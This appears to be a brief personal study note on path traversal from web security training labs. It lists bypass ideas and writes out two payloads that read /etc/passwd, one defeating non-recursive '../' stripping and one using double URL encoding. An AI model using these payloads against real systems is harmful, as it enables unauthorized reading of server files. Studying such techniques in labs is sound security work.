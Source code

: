 # Path Traversal

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders" %}

## We Know

* Poison byte for file extension
* Validation at start of path
* Always try mentioning just the full path of file you're trying to access

### Lab 2 (Non recursive file traversal stripping)

`/image?filename=....//....//....//etc/passwd`

You already know the logic lmao

### Lab 3 (Traversal sequences stripped with superfluous URL-decode)

They said the app performs a URL decode before reading the input AGGGHHHHHHH

`/image?filename=..%252f..%252f..%252fetc/passwd`

the '/' was URL encoded twice, first normal decode and second they specifically mentioned they'd decode again smh
